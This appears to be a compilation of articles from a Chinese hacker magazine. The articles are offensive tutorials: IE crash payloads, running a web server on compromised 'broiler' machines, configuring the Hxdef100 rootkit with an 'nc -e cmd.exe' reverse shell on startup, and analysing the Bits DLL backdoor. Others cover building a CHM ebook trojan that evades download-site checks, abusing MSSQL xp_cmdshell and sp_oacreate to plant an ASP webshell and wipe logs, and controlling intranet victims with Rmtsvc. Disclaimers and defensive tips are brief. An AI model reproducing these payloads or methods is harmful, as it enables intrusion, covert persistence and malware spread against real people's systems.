User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Host: 172.18.16.61
Connection: Keep-Alive
Cookie: ASPSESSIONID...=...; userpass=...; username=...; onlinetime=...; admin=10; posttime=...
（这是我在我机器上做的实验）
```

我们发现没有 `Request.ServerVariables("http_referer")` 这个变量，这个可以自己加上，修改后如下：

```http
GET /compact.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, ...
Referer: http://172.18.16.61/admin_fso.asp?menu=...
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Host: 172.18.16.61
Connection: Keep-Alive
Cookie: ASPSESSIONID...; userpass=...; username=...; onlinetime=...; admin=10; posttime=...
```

呵呵，这时用 NC 提交就不会弹出“来源错误”了，同时要注意 Cookie 中 Posttime 这个变量的修改，最好截到数据包修改后立即发送，不然得修改 Posttime 变量了，这个变量的时间会增加一点的。

通过上面的方式，我们就可以向这个文件提交变量了，看看都能提交什么好东西吧！仔细一看，原来这个文件是对数据库进行压缩的，利用价值不是很高，我也懒得继续想了，交给高手们去玩吧。这里说说我的利用方法，提交如下的数据：

```http
GET /compact.asp?dbpath=conn.asp&bools97=...&Submit=... HTTP/1.1
```

呵呵，这时服务器返回发生“500 内部错误”，而且告诉我们“e:\web\conn.asp 不是有效的数据库文件”，Web 的绝对路径不打自招了。……如果服务器程序还有其他注入点的话，备份数据库得到 WebShell 是很有可能的！

我并不是单纯指出怎么可以得到 WebShell 或提升权限，而是向大家表明一切没有过滤的变量都有可能成为黑客利用的焦点……

## IE 就是这样被攻击的

Internet Explorer 已经成为我们上网冲浪不可或缺的工具之一，当我们在使用 IE 来浏览网页时，会遇到一些莫名其妙的情况，如 IE 停止响应、自动关闭、系统出错甚至死机等。这是怎么回事呢？……

### 1. 对 Internet Explorer 实施 DoS 攻击

Internet Explorer 浏览器存在 DoS 缺陷，在处理 Object 标签时出现错误。当使用浏览器打开包含攻击者提供的精心构造的临时 HTML 页面时，将导致 IE 浏览器停止所有打开的会话，导致产生 DoS 攻击。攻击方法为：

```html
<object id="test"
data=""
width="100%" height="100%"
type="text/x-scriplet">
VIEWASTEXT></object>
```

另外，一个包含特殊 Object 对象内容的 HTML 页面将导致 DoS 攻击，引起 IE 崩溃，这个特殊的 Object 对象为：`<object data="#" type="text/x-scriplet"></object>`。

### 2. IE Shell:IFrame 跨域脚本执行漏洞攻击

Microsoft Internet Explorer 6.0/6.0SP1 存在跨域脚本执行缺陷，远程攻击者可利用此缺陷跨域在本地电脑区域中执行任意脚本。

……攻击者可以构建使用 shell: 属性的 IFRAME 页面，诱使用户访问，可导致以本地电脑域上下文执行任意脚本代码。测试方法如下：

```html
<a href="shell:My Music" onmouseover="window.status='MyMusic'; return true" onmouseout="window.status=''; return true">
```

### 3. IE 闪包死机炸弹

本炸弹利用计算不断成倍增长的字符串长度，其中 5 表示速度，数值越小速度越快，但是要大于零。运行此炸弹会使 CPU 超负荷而死机……

```html
<script language="javascript">a='hello';function ad(){a=a+a;window.status=a.length;window.setTimeout('ad()',5)}ad()</script>
```

### 4. Object 对象链接和嵌入元素循环调用导致 IE 崩溃

IE 中的 Object 对象链接和嵌入元素循环调用会导致 IE 崩溃，不相信？那就试试吧！先创建一个名为 crash.htm 的文件，其内容如下：

```html
<!-- 此代码所在的文件名应为crash.htm -->
<object data="crash.htm" type="text/html"></object>
```

当别人一运行此网页文件，IE 就会崩溃。另外，当网页中包含畸形的 input 标签时也会导致 IE 崩溃。

**蝴蝶：**想来很多读者都很想要 Web 服务器吧？可是现在免费的主页空间实在难以寻觅，并且支持 ASP、CGI、PHP 的空间对我们多数人来说可不便宜。但是网上有那么多肉鸡，为什么不可以利用它们呢？或许可以将它们变成自己的 Web 服务器？可以吗？让我们来看看本文——

- 难度等级：中  
- 前置知识：Windows 使用经验，命令行方式的操作经验

## 命令行下将肉鸡变成服务器

文/图 沃林

天天在网上乱转，一有好东西出来总喜欢试试。这两天又看到了一个好东东——小巧的 Web 服务器 NetBox。说到这个东东可厉害了，不仅小巧，而且完全是在命令行下进行安装。更刺激的是，NetBox 完全支持 ASP，也就是说你只要一安装它，就可以得到一台 ASP 服务器了。可以装动网论坛、可以装下载程序，反正就是你的了。OK！各位快快拿出自己的肉鸡，我们一起将肉鸡变成服务器！

首先我们要下载 NetBox。找不到的朋友可以到影子鹰安全网下载中心进行下载：http://www.cnhacker.cn。下载完即可解压，这是一个解压包：里面有 5 个主要的文件，还有 1 个文件夹和 1 个 ASP 文件。另外还有一些说明文件，大家可以先看一看。我们首先将 MAIL.BOX 这个文件用记事本打开，修改其中的端口、还有目录，设为你想要的（图1）。

看到没有？我将端口改为了 88，将默认目录改为了 WWW，保存退出。接下来，当然是将这些文件上传到你肉鸡的 SYSTEM32 目录下，包括解压出来的文件夹和 ASP 文件（图2）。先和你的肉鸡进行 IPC 连接，这些是大家熟得不能再熟的工作了。下面我们做个自解压包，将所有解压出来的文件选中，右键鼠标，选择“添加到档案文件”，做成一个压缩包，然后再双击这个压缩包，选择最边上的“自释放”，进入后如图3和图4所示。

这样设置后，只要我们一解压就会自动运行 INSTALL.BAT 这个批处理，做好后选“完成”，就这样做好了一个自解压的压缩包，所有文件都放入这个压缩包中了。我们现在先将这个压缩包上传到我们的肉鸡上（图5）。

OK！上传完毕，现在所有的文件都已上传到肉鸡之中了。我们现在要登录肉鸡了，我不知道各位准备如何登录肉鸡，反正我一直都用的是 OPENTELNET，只要有肉鸡的 USER 和 PASSWORD，就可以……

在本地远程给肉鸡开一个端口为 77 的后门（图6）。

然后就是在你本机的 CMD 下，TELNET IP 到肉鸡的 77 端口，好了，看看我们上传的自解压包还在不在（图7）。看看都在吧。快快运行一下：

```bat
C:\WINNT\SYSTEM32\NETBOXA.EXE
```

打开我们的 IE，输入肉鸡的 IP 加上你设置的端口。呵呵，服务器启动了（图8）。以后我们就可以利用这个自解压包上传到我们手中控制的肉鸡上，将每一个肉鸡都变成一个支持 ASP 的服务器。在 QQ 上见到朋友你也可以很大方地说，要不要 ASP 服务器呀，给你一个！哈哈！

## 将后门隐藏到底

### ——内核级后门 Hxdef100 配置及使用方法

在众多后门中，RootKit 是一个非常不错的选择。在当前比较流行的 RootKit 之中，Hacker Defender 尤其被人关注，由于它作为内核的一部分运行，所以这种后门将会越来越比传统技术更加强大、更加不易被发觉。一旦被安装运行到目标机器上，系统就会完全被控制在 hacker 手中——甚至系统管理员根本找不到安全隐患的痕迹。

作为一款非常出色的 RootKit，hxdef100 给我们提供了很多可选择配置的功能，比如用户可以通过本软件隐藏文件、进程、系统服务、系统驱动、注册表键的键和值、打开的端口以及虚构可用磁盘空间，下面我们就来看一下这款诱人的内核级后门是如何打造出来的。

| 文件名 | 说明 |
|---|---|
| bdcli100.exe | 客户端连接文件 |
| hxde100.exe | Hxdef100 后门主程序 |
| hxde100_2.ini | hxdef 配置文件模板 |
| hxde100.ini | hxdef 经过简单加密过的配置文件模板 |
| rdrbs100.exe | Redirector 工具（类似于端口转发） |

打开 hxde100_2.ini，我们可以看到 hxdef 的默认配置选项，首先，我们先对 [Hidden Table] 项进行配置。[Hidden Table] 是要隐藏的列表，写在这个项目下的字符串，不管是作为文件名还是目录名，都将不在 Windows 任务管理器、资源管理器中出现，并且支持通配符，一行一个。例如：

```ini
[Hidden Table]
hxdef*      ; 隐藏所有以 hxdef 开头的文件名、目录名等等
rcmd.exe    ; 隐藏 rcmd.exe 文件
```

下一步，就是 [Root Processes] 项，这里是配置要隐藏且能在进程管理器中显示的进程名，同样支持通配符。配置如下：

```ini
[Root Processes]
hxdef*
rcmd.exe
```

[Hidden Services] 项目，是所要进行隐藏的服务列表，hxdef 非但能隐藏自身，而且可以为其他后门程序提供隐藏服务。这是 hxdef 的一大亮点。首先当然是隐藏自身的服务名，而后是其他服务，一行一个，也支持通配符。配置例如：

```ini
[Hidden Services]
HackerDefender*
WinMgrs
```

[Hidden RegKeys] 隐藏 RegKey 列表，我们添加的服务都会在 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services 找到对应的注册表项，所以为了做到彻底隐藏，我们就要将隐藏进行到底。配置例子：

```ini
[Hidden RegKeys]
HackerDefender100
LEGACY_HACKERDEFENDER100
LEGACY_...
HackerDefenderDrv100
LEGACY_HACKERDEFENDERDRV100
LEGACY_...
```

其他的服务也如此添加，不同服务对应自身的服务名。

[Startup Run] 后门在启动时，同时启动的其他项目列表，这里我们可以放进一些不能随开机启动的项目，比如 NC，用法：

```ini
[Startup Run]
nc -e %windir%\system32\cmd.exe 你的IP 端口
```

这里允许使用例如 %windir%、%tmpdir% 等环境变量。

[Hidden Ports] 隐藏端口列表，这个我们平时用到的比较多，写在这个列表里的端口可以不再显示监听，用 netstat -na 也查不到哦。配置方法很简单：

```ini
[Hidden Ports]
TCP:4136,8922,9333
UDP:4136,8922,9333
```

[Settings] hxdef 的设置部分，可以设置 hxdef 的服务名、描述、显示名等等。设置方法如下：

```ini
[Settings]
Password=Liu654321
BackdoorShell=stdi02.exe
...
FileMappingName=...
ServiceName=HackerDefender100
ServiceDisplayName=...
ServiceDescription=powerful NT rootkit
DriverName=HackerDefenderDrv100
DriverFileName=hxdefdrv.sys
```

[Comments] 为注释部分，由于 hxdef100 的配置文件为 ini，所以一定要把 [Hidden_table] 项目填写正确，将 ini 文件也隐藏掉，否则就等着哭喽~

以上，我们了解了 Hxdef100 的配置方法，在种植时，需要注意以下几个开关选项及事项：

```text
-installonly
-refresh
-noservice
-uninstall
...
```

### 使用

上面的配置比较死板，大家也看累了吧？呵呵，下面我们来看看它的简单使用方法！

客户端连接程序 bdcli100.exe 用法也尤为简单，逐个输入所要求输入的选项即刻进入 Shell。hxdef100 自带的后门并不是传统后门，类似 bits 和 WinEggDrop 老哥的 PortLess 后门程序并不开端口，而是 Sniffer 所有网卡是否有发送连接字符串，然后进行连接的。用法例如：

```text
C:\>bdcli100
Host: 192.168.0.102
Port: 80
Pass: Liu654321
connecting server...
receiving banner...
opening backdoor...
backdoor found
checking backdoor
backdoor ready
authorization sent, waiting for reply
authorization -- SUCCESSFUL
backdoor activated
close shell and all progz to end session
```

另外，端口复用技术也在这个后门上得到发挥，前文后门专题已经有介绍了，这里就不再多说，大家可以不光利用 80 端口控制服务器，53、21 等端口都可以连入系统！

对于这么好的一个后门 + Rootkit，你不心动吗？还等什么，赶快配置一个吧！

**蝴蝶：**小榕的 BITS 在前段时间可是大大地“光火”了一回，它是属于 DLL 后门中的一种，但比一般 DLL 后门更加隐蔽，激活方式也更多类，并且能够反向透过防火墙，平时没有端口，很难察觉——功能的确是强，但是榕哥为了防止造成大的破坏，在 Bits 中作了限制，并且留下了脚印，很吃惊吧？呵呵，下面我们来看看作者对榕哥 Bits 的简单分析吧！

◎ 文／Tianwei [Nuke Group]

本次分析对象：Bits.dll，  
版本：2003/09/16。  
MD5：A07F9B83CA7ADF342EFBEF9529171144

Bits 的 Readme 中提到，Bits 的设计思想来自 Bingle 对 Svchost 分析的文章，我也看了这个文章，的确非常好，非常详细地介绍了 Svchost 的原理并提供了源代码，有兴趣的读者可以从网上搜索到。如果你已经知道了 svchost 的原理，那么可以略过下面对 svchost 的介绍。

### 通过 svchost 调用的服务堆栈情况

我们常通过“控制面板->服务”看到这些服务的，比如：

```text
svchost -k rpcss    // Remote Procedure Call (RPC)
svchost -k tapisrv  // Telephony
svchost -k netsvcs
```

或许有朋友会问：难道 svchost 一个文件就能提供这么多服务吗？其实不是这样的，svchost 仅仅是个宿主，通过分析对自身调用的参数来启动相应名字的 DLL 服务。它的服务分为若干个“组”（借用 Bingle 的概念）。我们来具体看看，在注册表键：

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost
```

里面有若干个 REG_MULTI_SZ 类型的值来对应上面的组，比如在笔者的机器上有：

```text
rpcss=RpcSs
tapisrv=TapiSrv
netsvcs=EventSystem, IaStor, Iprip, Ntmaps, Nwsaagent,
Rasauto, Rasman, Remoteaccess, SENS, Sharedaccess, NlaSvc ...
```

分别为 Rpcss 组、Tapisrv 组、netsvcs 组，每个组可以包含多个字符串（比如 Ias、Iprip……），分别对应注册表键：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
```

下面是以该字符串命名的服务入口。比如：SENS（Event System 服务）对应是这个：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SENS
```

在这个入口的下层子键 Parameters 中，有个 REG_EXPAND_SZ 类型的值 ServiceDll 指明了该服务实际调用的动态连接库，比如：ServiceDll=%SystemRoot%\system32\sens.dll，这个 sens.dll 才是 SENS 服务真正的提供者，而我们平时在“控制面板->服务”中是无法看到的。

### Bits 安装分析

BITS 安装时在注册表中 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Svchost\netsvcs 下写了一个 REG_SZ 类型的值 Strings，比如：Strings=activebitsdoor@dancewithdolphin，以明文方式来保存激活后门的部分参数。Bits 默认安装的：rundll32.exe BITS.dll,Install <activestring> 似乎是想替换 Iprip 服务；但若机器本身没有，将无法安装成功；如果以 rundll32.exe BITS.dll,Install rasauto <activestring> 安装的话，则替换 rasauto 服务，将 ServiceDll 指向自己。Bits 的反安装在试验时并不起作用，大概是试验所用机器限制或其他原因，所以必须手工恢复注册表。

同样，虽然 Bits 的 readme 中没有写，但我们还可以替换其他的 netsvcs 服务，比如：  
`rundll32.exe BITS.dll,Install sharedaccess <activestring>`  
将替换（SharedAccess）Internet Connection Sharing 服务，将 ServiceDll 指向自己！——现在大家明白了吧？哈哈，替换这才是经典所在！

微软用 Svchost 进程概括了很多系统中的底层服务，表面上好像很干净，但一旦被后门利用起来将是非常可怕的。我们无法再使用 ProcessExplorer 或进程管理器之类的软件来直接看到系统中后门进程。如果后门替换了某个 DLL，我们也无法通过“控制面板->服务”看到，而只有通过 ListDlls 之类的软件来察看系统中运行的 DLL，这可是个非常复杂的工作。因为一个系统中 DLL 实在是很多，普通用户无法分辨哪些是正常的、哪些是不正常的，后门的作者如果写得很恶意，甚至连脚印也不会存在，只有整天和这些东西打交道的人才能分辨。杀毒公司也有自制的程序进行合法性比对（当然不会向大众提供），等抓住特征码后再升级病毒库，大家再付钱，呵呵。PS：不过杀毒公司现在正在和 RootKit 打架呢，结果还未分晓，我们等着看吧^^。

◎ 文／图 icyfoxlovelace／冰狐浪子

（声明：本文所讲的方法是为了让网友加强自身的防护意识，用本方法所做的破坏性行为与本文作者无关！）

电子书木马（以下所指的电子书均指 CHM 格式的电子书）？没听过？其实这种方式的木马传播方法很早就出现过了，只是以网页木马的形式存在，也就是把网页木马加入电子书里，这种效果和一般的网页木马的效果一样，受到漏洞范围的限制，因此一直没引起人们的太大关注。也许大家觉得这样还不如直接的网页木马来得方便，其实不然，因为电子书相对于网页而言有许多“优点”，当然这里所谓的“优点”是指在传播木马方面而言的！呵呵，往下看。

## 电子书木马优势何在

- 1. 因为电子书一般是在本地电脑域打开的，因此它所获得的权限也是本地电脑域的权限，所以比起网页木马的 Internet 域来，让木马获得执行的机会要简单得多，不必使用漏洞就可以执行，从而也就不会被杀毒软件查杀。  
- 2. 现在的网页木马由于影响力太大，一般的人上网都会小心三分提防，且它依赖于漏洞，所以生存空间正在逐渐缩小；与此相反的是电子书的火爆下载，使得电子书木马的传播能力以及范围大大加强。  
- 3. 由于木马程序嵌入电子书里，一般的杀毒软件无法对其中存在的木马病毒等破坏性程序进行检查和清除，检查与杀毒耗时也更长。  
- 4. 网页木马一般都要自己辛苦去传播，并且站点随时可能被关闭，而电子书却可以让许多下载站点为它做贡献，获得长久时间的传播。

好，下面就让我和大家一起一步步打造一个超级隐蔽的电子书木马吧！

## 你也能打造自己的电子书木马

- 首先准备好工具如下：  
- 1. Microsoft HTML Help Workshop V1.32（电子书制作工具）。  
- 2. 超级木马一只（文中演示用“Window 按钮突破专家”）。  
- 3. 现在最火爆的电子书籍（文中演示用 Windows 2000 帮助文档 WINNT\Help 下的 access.chm）。

准备好了吗？开始制作吧！第一步：打开 access.chm，在右侧空白处点击右键菜单并选择属性，可知该电子文档的默认主页是 accessibility_overview.htm。

图1

第二步：制作一个可以让木马运行并同时可以自动转到原电子书默认主页的网页 icyfox.htm，代码如下：

```html
<HTML>
<HEAD>
<meta http-equiv="refresh" content="3; url=accessibility_overview.htm">
</HEAD>
<BODY>
<OBJECT Width=0 Height=0 style="display:none;" TYPE="application/x-oleobject" CODEBASE="Window 按钮突破专家.exe">
</OBJECT>
</BODY>
</HTML>
```

> 把其中的 accessibility_overview.htm 改为你用的电子书默认主页名……> “Window 按钮突破专家.exe”改为你的木马程序名就可以了。另外如果你的木马程序体积比较大，请相应地把里面的转向时间“3”改得大一些，这样看起来关闭时间就更真实了。

第二步：打开 HTML Help Workshop，选择 File 菜单下的 Decompile... 项，对 access.chm 进行反编译，如图2所示。在反编译后的目录“G:\CHM木马”中可以看到 access.hhc（对应帮助文档左侧的“目录”项）和 access.hhk（对应帮助文档左侧的“索引”项）。


第四步：建立一个新的带有木马的电子书，把“Window 按钮突破专家.exe”（即你的木马程序）复制到反编译后的目录“G:\CHM木马”中，并在此目录下建立一个 icyfox.hhp 的文件（用记事本即可），内容如下（注意“;”号后面的注释不要写上）：

```ini
[OPTIONS]
Compatibility=1.1 Or later
Compiled file=access.chm
Default Window=Main
Language=0x804 中文(中国)

[WINDOWS]
Main="辅助选项",access.hhc,access.hhk,icyfox.htm,...

[FILES]
icyfox.htm
Window 按钮突破专家.exe
```

最后，用 HTML Help Workshop 打开 icyfox.hhp，点击左侧最下面的编译按钮，稍等一会就可以在“G:\CHM木马”目录中发现已经编译好的带有木马的电子书 access.chm 了，打开看看，如图3所示。

加入电子书中的程序是不是运行啦？！还和原来的电子书蛮相似的吧？当然，由于我用的上面的 icyfox.hhp 是直接编译出来，并没有对电子书进行更细致的调整，所以和原来的相比有点差异，如果你愿意，做出和原电子书一样的界面也可以的！


在这里我直接写出 icyfox.hhp 这个文件的内容，可绝不是为了多赚稿费哦，呵呵。一方面免去制作电子书的过程说明，更重要的是因为它对你做一个可以“传染”其他电子书的木马是有很大作用的，不过鉴于这样做已经具有病毒的传染特性，其危害性过大，所以请不要找我要方法和代码，也请自己想出方法写出程序的各位大哥，不要进行大规模的传播！

## 大面积传播的疑问

看到这里，你也许会质问我说的“优点”中的第四条根本没法实现，因为当“下载站点”的站长打开时同样会运行木马，所以他就不会再为你“免费服务”了，咋办？让我们和大家一起解决这点小问题，如何逃过那些“下载站点”的木马检测，而让他们不知不觉地帮助你传播电子书木马！

分析一下，那些“下载站点”一般不会把你提供的电子书进行反编译吧？所以只要在他们打开你的电子书查看时，不运行你的木马程序，这样他们就会放心地把它放到自己的网站上供其他人下载！我的方法是在 icyfox.htm 中加入用于判断时间的 JavaScript 代码，当大于某日期时，再动态写入运行木马的 HTML 代码，从而逃过检测，修改后的 icyfox.htm 如下：

```html
<HTML>
<HEAD>
<meta http-equiv="refresh" content="3;url=accessibility_overview.htm">
</HEAD>
<BODY>
<SCRIPT LANGUAGE="JavaScript">
// 以下是时间判断代码
var ms=1;   // 起始日
var me=18;  // 结束日
var yue=4;  // 月
var nian=2004; // 年

var riqi = new Date();
var d = riqi.getDate();
...
var m = riqi.getMonth()+1;
var y = riqi.getYear();

if(y==niandu||n<=yue||d<=ri){
  document.write('<OBJECT Width=0 Height=0 style="display:none" TYPE="application/x-oleobject">');
  document.write('<CODEBASE="Window 按钮突破专家.exe">');
  document.write('</OBJECT>');
}
</SCRIPT>
</BODY>
</HTML>
```

呵呵？不要太猖狂了哦！最后，我说一下对这种电子书木马的预防措施。

首先是老生常谈：下载电子书在一些比较正规的大站点进行，因为这里的书籍一般都是他们自己做的；然后需要注意积极的自我防护，修改本地安全属性，使其无法在本地电脑域环境中运行木马程序，将相应的注册表键值做修改……再打开 IE 浏览器“Internet 选项...”中的“安全”标签，仔细改它的安全级别吧！

想想，你说这个电子书木马的生存传播效果如何。

## 注入强化秘籍

### xp_cmdshell

### 利用 MSSQL 数据库存储扩展取得服务器权限

| 项目 | 内容 |
|---|---|
| 适合读者 | 数据库入侵爱好者 |
| 前置知识 | 数据库基本操作，常见 SQL 注入方法 |
| 难度等级 | 高 |

◎ 文/图 Firstsee

蝴蝶：大家在入侵的过程中经常遇到注入漏洞吧？如果是 SQL Server + ASP，再加上 SYSAdmin 的权限，服务器几乎在几分钟内就会被我们搞定了……当然不是的，我们同样可以搞定它！

在 MSSQL 中，具有 SYSAdmin 权限的用户可以通过 xp_cmdshell 存储扩展，以 SYSAdmin 的权限执行任意系统命令，因此大多数管理员都会将它删除。获得 xp_cmdshell 的执行权限也就成了大多数 SQL Injection 攻击方法的终极目标。

这种方法虽然不属于 SQL Injection 的范畴，但在我们整个渗透过程中往往会起到决定性的作用。闲话少说：打开我最常用 SQLScanPass，将主机 IP 及端口 1433 写入 SQLHost.txt 文件中。先测试一下空口令，如果没成功就挂一个好用字典，程序运行界面如图1所示。

我们先要获取数据库当前用户的连接权限。MSSQL 中一共存在 8 种权限：sysadmin、dbcreator、diskadmin、processadmin、serveradmin、setupadmin、securityadmin 和 bulkadmin。只有 SYSAdmin 才是我们真正想要的，因此只需要提交如下 URL：

```text
http://somesite/show.asp?id=4864' and 1=(select IS_SRVROLEMEMBER('sysadmin'))
```

就可以判断当前用户是否具有 SYSAdmin 权限了……如果不正常的话就得辛苦点了，我们得一步步来。


图1

#### 1. 破解 SA 账号的口令

这种方法应该不属于 SQL Injection 的范畴，但在我们整个渗透过程中往往会起到决定性的作用……现在，我们可以泡上一杯咖啡慢慢地享受，慢慢地等待了……

#### 2. 判断存储扩展是否存在

如果获得了 SA 或其他账号弱口令的话，剩下的任务就可以交给 SQLTools.exe 了……但执行数据库命令和系统命令都需要一定的存储扩展支持，因此首先要判断这些存储扩展是否存在。

用 SQLTools 连接上远程数据库，从“利用目录”菜单中打开“执行数据库命令”窗口，填入我们要执行的命令。例如：

```sql
select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell'
```

这就是用于判断是否存在 xp_cmdshell 存储扩展的，运行界面如图2所示。


如果返回结果为 1 的话，我们就可以使用菜单中的“执行 DOS 命令”选项了，说明它没有删除这个扩展存储过程，否则的话就要再往下看了。

#### 3. 恢复 xp_cmdshell，抓鸡肉鸡

直接在数据库命令执行窗口写入：

```sql
Exec master.dbo.addextendedproc 'xp_cmdshell','xplog70.dll';
select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell'
```

意思是恢复默认的存储过程，如果返回 1 的话就说明恢复成功，否则就是存储过程被删除，需要给它上传一个 xplog70.dll 文件。

打开“文件上传”窗口将文件上传到对方服务器 `C:\WinNT\System32\` 下后，再执行数据库命令恢复这个文件：

```sql
Exec master.dbo.addextendedproc 'xp_cmdshell','C:\WinNT\System32\xplog70.dll'
```

OK，剩下的就是日常使用的 `net use` 和 `net localgroup` 命令了，再为服务器添加一个隐藏账号，清理好 IIS 日志和 MSSQL 日志后就可以闪人了。

#### 4. 绕过 xp_cmdshell 执行系统命令

上面的几种方法都是常用的方法，其实我们完全可以不用这样的思路去搞定删除扩展存储过程的 SQL 服务器，因为在 MSSQL 中可以通过 `sp_oacreate` 和 `sp_oamethod` 两个存储扩展创建 ActiveX 自动脚本。

……执行系统命令的语句我们可以自己给它加上哦，可以写出如下代码：

```sql
declare @o int
exec sp_oacreate 'wscript.shell', @o out
exec sp_oamethod @o, 'run', NULL, 'net start telnet'
```

这段代码的作用是在服务器上通过 `wscript.shell` 执行 `net start telnet`，从而开启服务器的 Telnet 服务。再通过 FSO 对服务器进行文件管理，例如：

```sql
declare @o int, @f int, @t int, @ret int, @c varchar(8000)
declare @line varchar(3000)
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'opentextfile', @f out, 'c:\boot.ini', 1
exec @ret := sp_oamethod @f, 'readline', @line out
select @c=''
while(@ret=0)
begin
  select @c=@c+@line+char(13)+char(10)
  exec @ret := sp_oamethod @f, 'readline', @line out
end
```

用上面的方法可以读取服务器上 `c:\boot.ini` 文件中的内容并存储在局部变量 `@c` 中……还有一个方法可以直接创建文件并写入数据，例如：

```sql
declare @o int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'createtextfile', @f out, 'c:\inetpub\wwwroot\foo.asp', 1
exec @ret := sp_oamethod @f, 'writeline', NULL, '<% set o = server.createobject("wscript.shell"):o.run(request.querystring("cmd")) %>'
```

上面的代码在服务器 `c:\inetpub\wwwroot\foo.asp` 上创建了一个 ASP 木马……这种方法避免了大量无用数据，也免掉了使用 `sp_makewebtask` 存储扩展所带来的麻烦，而且成功率大大增加。

MSSQL 为我们提供了异常丰富的存储扩展库，可以实现操作系统所能实现的大部分重要功能（如注册表管理、文件管理、用户管理、权限管理等）。但如果管理员没有足够的安全防范意识，这些“优点”就会被入侵者所利用。

## 不慌不忙控制

### 内网肉鸡

文/图 小白


远程控制肉鸡中有一个老大难的问题：完美地控制内网肉鸡。近年江湖上出现了几个木马软件还不错，可惜需要付费购买。作者更是用心良苦，又是网络验证又是加壳，甚至还把需要的功能加上层层闪亮的铠甲。可怜小菜我只能引颈以待，渴望某个高手能破解掉这几个软件……这样的日子一直持续到我发现集成了 VIDC 的 Rmtsvc，我的生活才有色彩。

这几年，后门被查杀会常常升级到足够让我们痛失大把手上的肉鸡。Rmtsvc 却万幸地没有被查杀（注：笔者使用的是 NORTON ANTIVIRUS 9.0 企业版，安装在有瑞星2004的机器上也安然无恙），这也是让我感到开心的，大家来 BS 杀毒软件吧！

### 牛刀小试：不一样的感觉

每一个好的控制软件都有其创新的一面，几年前浮现的冰河，到现在的网络神偷、灰鸽子、Radmin 等我们都可以看出创新的意义是多么重大。而 Rmtsvc 的创意在于：只要有浏览器，我们就有自己的肉鸡大部队。Rmtsvc 是国内第一款 B/S 方式的远程控制工具，其操作大部分可通过浏览器进行，客户端浏览器可以为任何支持 HTML3 及以上版本的浏览器，例如 IE4.0 及以上、Mozilla、NetScape7.0 等。

只要有浏览器，我们就能够创建各种以前没有的服务。Rmtsvc 在最新的几个版本里集成了 VIDC 组件，实现了外网对内网控制，不依赖于其他软件，并可进行端口映射 TCP 服务。它允许你将局域网内的服务映射到 Internet 上，使你在任何地方都可以访问你的局域网内机器。

只要有 Rmtsvc，我们就有了固定公网 IP。国内公网固定 IP 真是贵呀，家用的有几个会买一个月上千元的 IP？可是我们要架 FTP、要架网站，我们真希望有一天机器不用动态虚拟域名也可以直接访问。我们要的，Rmtsvc 可以帮我们以“拿来主义”之名实现。

### 霹雳一击：演战中的升华

- **1. 不被查杀的黑马**

很久以前笔者就喜欢在网吧对其他机子进行控制，使用的是冰河，后来就选择了网络神偷……即使在入侵了其他机器后也只是作为战略性的基地，放上一个不被查杀的后门就闪人。只是最近那个后门也不幸被查杀，我才慌忙寻找新的作战工具。找不到一个不被查杀的后门绝对是我们菜鸟的最大心病。

- **2. 异乎寻常的控制**

玩过 N 多大软小软黑软后，笔者竟迷失在操作中近10分钟。Rmtsvc 只有服务端程序，你必须在肉鸡与本机中装上它。以后所有操作一般只在浏览器上进行。使用中可以发现 Rmtsvc 没有明显的客户端，而在浏览器上的操作是相互作用的。如果想操作更多机器，可以指定一台机器为“主”机，其他机器以此机上的某个端口进行链接，最后映射到所需机器上的服务。

### 龙战于野：实战中的魅影

为了显示 Rmtsvc 的强大，我特意找了一台好肉鸡，它具有高速、稳定、安全的特点，当然少不了要有固定 IP。实际上是一台在电信托管的网站服务器。肉鸡还是很容易找的，对菜菜的我来说，重要的是用好工具：一份好的扫描工具和漏洞列表是必备兵粮。用 Radmin 登上肉鸡后，下载 RmtSvc&VIDC2.4.6b build040626，接着解压，细心看说明文件……

```bash
C:\WINNT\Speech>rmtsvc -i
Remote Control Service installed.

C:\WINNT\Speech>rmtsvc -s
Starting up Remote Control Service.
Remote Control Service started.
```

接着就可以在浏览器里打开 Rmtsvc 进行管理了。地址栏里输入（我养的肉鸡）`http://211.23.**.153:7778`，输入默认密码 `123456`，竟然要输入验证码？

其实 Rmtsvc 在新版本中已大大加强了登录安全数字校验，防止暴力破解，另外密码加密传输，防止密码窃听，如图1所示。


图1 Rmtsvc 操作界面 强大的数字校验功能

进入管理页面后我们可以看到操作界面采取上下框架模式，非常直观。可惜全是英文的，如图2所示。对部分人可能有点难度，不要着急，说明文件看了吗？慢慢对比一下，20分钟后你就基本会操作了（不过你还是不懂如何应用已嵌入 VIDC 还有其他一些较有深度的操作哟，嘿嘿）。


图2 简明的布局 实用的功能

- **功能菜单如下：**
- **Pview**：进程查看。通过 Rmtsvc 你可以远程管理进程、显示远程系统信息、Administrator 用户密码、CPU/内存占用等。
- **Spy++**：远程控制管理。通过浏览器远程控制被控机。
- **Proxy**：启动或停止 Rmtsvc 的代理服务，设置代理服务的运行参数。
- **Ftp&Telnet**：启动或停止 Rmtsvc 的 FTP 服务/Telnet 服务，配置服务运行参数。
- **VIDC**：设置 VIDCs 的访问权限，设置 VIDC 连接参数、映射端口等。
- **Logoff**：在线注销 Rmtsvc 登录。
- **Option**：配置 Rmtsvc 的运行参数，如访问密码、是否隐藏等。
- **About**：Rmtsvc 欢迎/登录页面。

有意思的是，在 Pview 页面，能很直观地看到当前管理员账号/密码，这个可是相当于 Pulist.exe+Findpass.exe 功能，不过可惜的是仍然查不出 Windows 2003 操作系统的密码。在此页面的左下角是所有的进程列表（可惜不能显示隐藏进程，叹！），点击之后，右边可以设置是否删除此进程，或是给予 CPU 优先级权限（这个很简单的，PASS！），如图3、图4所示。

